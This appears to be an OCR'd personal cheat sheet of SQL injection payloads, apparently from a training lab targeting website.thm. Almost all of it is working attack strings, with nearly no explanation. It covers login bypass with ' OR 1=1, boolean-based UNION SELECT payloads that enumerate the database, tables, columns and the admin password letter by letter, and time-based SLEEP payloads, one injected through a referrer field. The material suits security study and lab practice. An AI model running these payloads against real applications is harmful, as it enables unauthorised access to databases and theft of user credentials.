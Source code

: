 💉 **INJECTION**  💉


  # Authentication Bypass

  - ' OR 1=1;--
  -   -select * from users where username='%username%' and password='%password%' LIMIT 1;
  -   select * from users where username='' and password='' OR 1=1;

  # Boolean Based
--->  💉   **https://website.thm/checkuser?username=admin**
  - select * from users where username = '%username%' LIMIT 1;
  - OR 1=1 and OR 1=2
  - admin123' UNION SELECT 1;--
  - admin123' UNION SELECT 1,2,3;--
  - admin123' UNION SELECT 1,2,3 where database() like '%';--
  - admin123' UNION SELECT 1,2,3 where database() like 's%';--
  - admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name like 'a%';--
  - admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name='users';--
  - admin123' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like 'a%';
  - admin123' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like 'a%' and COLUMN_NAME !='id';
  - admin123' UNION SELECT 1,2,3 from users where username like 'a%
  - admin123' UNION SELECT 1,2,3 from users where username='admin' and password like 'a%



  # Time Based

  - admin123' UNION SELECT SLEEP(5);--
  - admin123' UNION SELECT SLEEP(5),2;--
  - referrer=admin123' UNION SELECT SLEEP(5),2 where database() like 'u%';--

    
